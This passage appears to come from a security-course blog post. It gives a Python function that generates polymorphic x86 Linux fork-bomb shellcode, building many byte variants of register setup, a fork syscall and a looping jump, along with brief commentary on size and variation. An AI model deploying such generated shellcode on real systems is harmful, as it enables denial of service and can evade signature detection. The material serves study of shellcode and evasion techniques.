 This strategy can lead our shellcode to be **very** large, so it can't be
useful due to engagement rules.

Anyway, it is an interesting PoC and it leads to a very large number of
shellcode variations.

The python method implementing this strategy is the following. In this case,
we've got a lot of freedom in choosing values for EBX, ECX and EDX.

{%highlight python%}
def fork_sub_strategy():

    # EAX = 0x2

    init_eax = ["\\x29\\xc0\\xb0\\x??\\x2c\\x$$"];
    par = randint(1, 255)
    eax = "".join(init_eax)
    eax = eax.replace("??", str(format(par, '02x')))
    eax = eax.replace("$$", str(format(par-2, '02x')))


    init_ebx = ["\\x29\\xdb","\\xc4\\xe2\\x60\\xf2\\xdb", "\\x83\\xc3\\x??", "\\x83\\xeb\\x??", "\\x6a\\x??", "\\x5b"];
    shuffle(init_ebx)
    par = randint(1, 127)
    ebx = "".join(init_ebx[0])
    ebx = ebx.replace("??", str(format(par, '02x')))

    init_ecx = ["\\x31\\xc9", "\\xc4\\xe2\\x70\\xf2\\xc9", "\\x6a\\x??\\x59\\x80\\xe9\\x??", "\\x83\\xc1\\x??", "\\x83\\xe9\\x??", "\\x6a\\x??", "\\x59"];
    shuffle(init_ecx)
    par = randint(1, 127)
    ecx = "".join(init_ecx[0])
    ecx = ecx.replace("??", str(format(par, '02x')))

    init_edx = ["\\x31\\xd2", "\\xc4\\xe2\\x68\\xf2\\xd2", "\\x6a\\x??\\x5a\\x80\\xea\\x??", "\\x83\\xc2\\x??", "\\x83\\xea\\x??", "\\x6a\\x??", "\\x5a"];

    shuffle(init_edx)
    par = randint(1, 127)
    edx = "".join(init_edx[0])
    edx = edx.replace("??", str(format(par, '02x')))

    init_blk = [eax, ebx, ecx, edx]
    shuffle(init_blk);
    setup_blk=["\\xb0\\x02" ];

    jmp_adj = format((255 - byte_len(init_blk) - byte_len(setup_blk) - 3), '02x')
    shellcode="".join(init_blk)+"".join(setup_blk)+"\\xcd\\x80\\xeb\\x"+jmp_adj;

    return shellcode
{%endhighlight%}

{%asciicast 198409 %}

## Lessons learnt
